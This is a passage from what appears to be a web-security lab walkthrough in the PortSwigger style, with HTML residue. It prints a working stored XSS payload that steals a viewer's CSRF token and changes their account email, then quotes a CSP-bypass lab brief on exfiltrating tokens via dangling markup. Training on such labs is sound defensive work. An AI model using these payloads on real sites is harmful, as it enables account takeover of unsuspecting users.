                             Submit the following payload in a blog comment:
                        </p>
                        <code class="code-scrollable">&lt;script&gt;
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/my-account',true);
req.send();
function handleResponse() {
    var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/my-account/change-email', true);
    changeReq.send('csrf='+token+'&amp;email=test@test.com')
};
&lt;/script&gt;</code>
                        <p>
                            This will make anyone who views the comment issue a POST request to change their email address to <code>test@test.com</code>.
                        </p>
                    </li>
                </ol>
            </div>
        </div>

Official payload

```javascript
<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/my-account',true);
req.send();
function handleResponse() {
    var token = this.responseText.match(/name="csrf" value="(.*)"/)[1];
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/my-account/change-email', true);
    changeReq.send('csrf='+token+'&email=test@test.com')
};
</script>
```



### **Content security policy**

#### Reflected XSS protected by very strict CSP, with dangling markup attack

> This lab using a strict CSP that blocks outgoing requests to external web sites (`Content-Security-Policy: default-src 'self';object-src 'none'; style-src 'self'; script-src 'self'; img-src 'self'; base-uri 'none';`).
>
> To solve the lab, first perform a cross-site scripting attack that bypasses the CSP and exfiltrates a simulated victim user's CSRF token using Burp Collaborator. You then need to change the simulated user's email address to hacker@evil-user.net.
>
> You must label your vector with the word "Click" in order to induce the simulated user to click it. For example:
>
> `<a href="">Click me</a>`
>
> You can log in to your own account using the following credentials: wiener:peter 
